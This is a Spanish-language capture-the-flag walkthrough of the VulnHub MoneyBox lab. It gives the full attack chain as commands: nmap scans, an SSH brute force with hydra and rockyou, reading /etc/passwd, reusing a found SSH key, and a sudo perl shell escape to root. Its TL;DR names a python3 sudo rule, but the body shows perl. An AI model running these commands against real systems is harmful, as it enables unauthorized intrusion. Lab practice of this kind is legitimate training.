

# MoneyBox — Walkthrough

**Autor:** Pxlymxrph  
**Origen:** VulnHub — MoneyBox (link arriba)  
**Objetivo:** Encontrar las 3 flags y obtener acceso root.  
**Resumen (TL;DR):**
- Descubrí la IP de la máquina en la LAN.  
- `nmap` mostró FTP (anon), SSH y HTTP.  
- Fuzzing web reveló `/blogs/`. FTP entregó una imagen con steganografía → usuario `renu`.  
- Fuerza bruta controlada con `hydra` sobre SSH → acceso `renu`.  
- Encontré `.ssh/id_rsa` → `lily`. `sudo -l` muestra `/usr/bin/python3 /opt/backup.py` NOPASSWD → uso de GTFObins/Perl para shell root.  
- Flags: user, lily, root.

## 1) Descubrimiento de red
Detecté la máquina objetivo en la red local con:

```bash
arp-scan -I eth0 --localnet --ignoredups
```

IP objetivo: **192.168.1.78**. Verifiqué cabeceras/TTL con `ping -c 1 192.168.1.78` (confirma Linux).


## 2) Escaneo de puertos y servicios
Escaneo rápido de todos los puertos:

```bash
nmap -p- -sS --min-rate 5000 192.168.1.78 -Pn -n -vvv
```


Escaneo con scripts en puertos detectados (21,22,80):

```bash
nmap -sCV -p21,22,80 192.168.1.78
```


Resultados clave:
- 21/tcp FTP (anonymous)  
- 22/tcp SSH  
- 80/tcp HTTP  

## 3) Enumeración web
Reconocimiento rápido:

```bash
whatweb http://192.168.1.78/
curl "http://192.168.1.78/"
```


Página estática con mensaje de “hacked”. Primer vistazo sin info útil.


## 4) Fuzzing de directorios
Fuzzing con `gobuster` / `dirsearch`:

```bash
gobuster dir -u http://192.168.1.78/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50
```

Descubro `/blogs/`. En la fuente del blog aparece una nota que sugiere otra ruta.


## 5) Pista en el HTML
Inspección manual del HTML mostró una contraseña/nota oculta en comentarios — la guardé como pista.


## 6) FTP — descarga de imagen
Ingreso anónimo a FTP y descargo `trytofind.jpg`:

```bash
ftp 192.168.1.78
# anonymous login
get trytofind.jpg
```


## 7) Steganografía en la imagen
Pruebo herramientas habituales:

```bash
exiftool trytofind.jpg
stegseek trytofind.jpg rockyou.txt
steghide extract -sf trytofind.jpg
```

`steghide` devuelve un mensaje y un usuario: **renu**.


## 8) Fuerza bruta SSH (laboratorio)
Intento controlar SSH con `hydra` (en laboratorio):

```bash
hydra -l renu -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.78
```

Obtuve la contraseña válida.



## 9) Acceso y enumeración local
Ingreso con `renu`:

```bash
ssh renu@192.168.1.78
cat /home/renu/user.txt   # flag user
```


## 10) Movimiento lateral hacia `lily`
Busco mas usuarios a través del `/etc/passwd` con `cat`. En `/home/renu` hallo `.ssh/id_rsa`. Uso la llave para entrar a `lily`:

```bash
cat /etc/passwd | grep "/bin/bash"
ssh -i /home/renu/.ssh/id_rsa lily@localhost
```

Accedo a `lily` y obtengo la segunda flag.


## 11) Escalada a root
Como `lily` ejecuto `sudo -l`:

```bash
sudo -l
# muestra: (ALL) NOPASSWD: /usr/bin/perl
```

Uso un vector conocido (GTFObins / Perl) para obtener shell root:

```bash
sudo perl -e 'exec "/bin/sh";'
```


Consigo shell root y la flag final.


## Resumen de comandos clave
```bash
arp-scan -I eth0 --localnet --ignoredups
nmap -p- -sS --min-rate 5000 192.168.1.78 -Pn -n -vvv
nmap -sCV -p21,22,80 192.168.1.78
whatweb http://192.168.1.78/
gobuster dir -u http://192.168.1.78/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50
ftp 192.168.1.78
steghide extract -sf trytofind.jpg
hydra -l renu -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.78
ssh renu@192.168.1.78
ssh -i /home/renu/.ssh/id_rsa lily@localhost
sudo -l
sudo perl -e 'exec "/bin/sh";'
```

## Conclusión
MoneyBox es un reto clásico: enum → stego → brute → lateral move → sudo privesc. Buen ejercicio para pulir cadena completa de ataque y detección de vectores básicos.
